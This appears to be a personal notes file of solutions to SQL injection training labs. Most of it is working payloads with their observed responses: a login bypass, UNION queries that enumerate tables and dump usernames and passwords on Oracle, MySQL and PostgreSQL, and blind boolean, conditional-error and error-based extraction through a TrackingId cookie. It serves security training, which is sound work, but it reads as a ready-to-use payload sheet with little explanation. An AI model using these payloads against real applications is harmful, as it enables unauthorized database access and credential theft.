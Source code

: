 # SQL Injection

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

```
'  // <- Error
' OR 1=1--
```

## SQL injection vulnerability allowing login bypass

In login form:
```
administrator'--
```

## SQL injection attack, querying the database type and version on Oracle

```
'  // <- Error
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' UNION SELECT 'a','b' FROM dual--

' UNION SELECT BANNER, NULL FROM v$version--
```

## SQL injection attack, querying the database type and version on MySQL and Microsoft

```
'  // <- Error
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#  // <- Error

' UNION SELECT @@version, NULL#
```

## SQL injection attack, listing the database contents on non-Oracle databases

```
'  // <- Error
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' UNION SELECT NULL,NULL--
' UNION SELECT 'a','b'--

' UNION SELECT table_name, NULL FROM information_schema.tables--
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_abcdef'--

' UNION SELECT CONCAT_WS('~',username_abcdef,password_abcdef),NULL FROM users_abcdef--
```

## SQL injection attack, listing the database contents on Oracle

```
'  // <- Error
'--

' AND 1=1--
' AND 1=2--  // <- No records

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' union select NULL,NULL from dual--

' union select table_name,NULL from all_tables--  // USERS_JBQHPM
' union select column_name,NULL from all_tab_columns where table_name='USERS_JBQHPM'--
' union select USERNAME_KUTLFE,PASSWORD_XXNVYJ from USERS_JBQHPM--
```

## SQL injection UNION attack, determining the number of columns returned by the query

```
'  // <- Error
'--

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--  // <- Error

' union select NULL,NULL,NULL--
```

## SQL injection UNION attack, finding a column containing text

```
'  // <- Error
'--

' ORDER BY 3--
' ORDER BY 4--  // <- Error

' union select NULL,NULL,NULL--
' union select 'a',NULL,NULL-- // <- Error
' union select NULL,'a',NULL--
```

## SQL injection UNION attack, retrieving data from other tables

```
'  // <- Error
'--

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' union select username,password from users--
```

## SQL injection UNION attack, retrieving multiple values in a single column

```
'  // <- Error
'--

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' union select NULL,NULL--
' union select 'a',NULL--  // <- Error
' union select NULL,'a'--

' union select NULL,@@version--  // <- Error
' union select NULL,version()--  // => PostgreSQL

' union select NULL,username||'~'||password from users--
```

## Blind SQL injection with conditional responses

```
'
'-- -
'#
' AND 'a'='a
' AND 'a'='b
```

No Vuln here.

In TrackingId cookie:
```
'  // No "Welcome back!" on the page
'--  // "Welcome back!" is back

' AND 1=2--  // No "Welcome back!" on the page
' AND 1=1--  // "Welcome back!" is back

' AND 'a'=SUBSTRING('administrator',1,1)--  // "Welcome back!" is present
' AND 'b'=SUBSTRING('administrator',1,1)--  // No "Welcome back!" on the page

' AND 'a'=SUBSTRING((SELECT username from users where username='administrator'),1,1)--  // "Welcome back!" is present
' AND 'b'=SUBSTRING((SELECT username from users where username='administrator'),1,1)--  // No "Welcome back!" on the page
```

Run script:
```
python3.9 blind-conditional-script-1.py
```

## Blind SQL injection with conditional errors

Same proccess as above. But this time TrackingId cookie behaves a bit differently:

```
'  // 500 response
'--  // 200 response

' union select NULL from dual--  // 200 response
' union select NULL,NULL from dual--  // 500 response

' union SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--  // 500 response
' union SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--  // 200 response

' union SELECT CASE WHEN ('a'=SUBSTR((SELECT username from users where username='administrator'),1,1)) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--  // 500 response
' union SELECT CASE WHEN ('b'=SUBSTR((SELECT username from users where username='administrator'),1,1)) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--  // 200 response
```

Run script:
```
python3.9 blind-conditional-script-2.py
```

## Visible error-based SQL injection

Adding `'` to TrackingId returns with
```
'  // Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'a6VQmllgxCQ8CY4b''. Expected  char

'--  // No error

' union select version()--  // No error => PostgreSQL

' AND 1=CAST('1' AS int)--  // No error
' AND CAST('abc' AS int)--  // ERROR: invalid input syntax for type integer: "abc"

a6VQmllgxCQ8CY4b' AND 1=CAST((select username from users) AS int)--  // With ID not removed our query gets truncated: Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'a6VQmllgxCQ8CY4b' AND 1=CAST((select username from users) AS'. Expected  char

' AND 1=CAST((select username from users LIMIT 1) AS int)--  // ERROR: invalid input syntax for type integer: "administrator"

' AND 1=CAST((select password from users LIMIT 1) AS int)--
```